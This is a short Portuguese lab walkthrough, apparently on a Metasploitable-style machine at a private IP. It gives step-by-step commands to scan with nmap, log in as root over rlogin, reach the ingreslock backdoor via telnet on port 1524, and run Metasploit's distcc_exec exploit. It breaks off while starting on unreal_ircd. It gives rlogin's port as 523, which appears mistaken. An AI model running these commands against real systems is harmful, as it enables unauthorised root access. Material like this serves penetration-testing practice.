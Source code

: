 Para obter um lista de serviços vulneravel da vítima, executamaos o `nmap`.

```shell
nmap -p0-65535 192.168.1.2
```
Para explorar a vulnerablidade de um serviço rlogin mal configurada na porta 523.

```shell
rlogin -l root 192.168.1.2
```
Para exibir o arquivo raiz 

```shell
cat /root/filetoview.txt
```
para obter o privilégios de root usamos o telnet para acessar o serviço ingreslock.

```shell
Telnet 192.168.1.2 1524
```
Serviço distccd vulnerável (porta 3632)

Inicie o console Metasploit

```shell
sudo msfconsole
```
Procure por exploração distccd

```shell
 search distccd
```
Use a exploração

```shell
use exploit/unix/misc/distcc_exec
```
Para ver a exploração 

```shell
options
```

Defina a opção 'RHOST'

```shell
set RHOST 192.168.1.2
```
Execute a exploração

```shell
exploit
```
Daemon IRC vulnerável (porta 6667)

Procure por exploração irreal_ircd.

```shell
search unreal_ircd
```
Use a exploração;
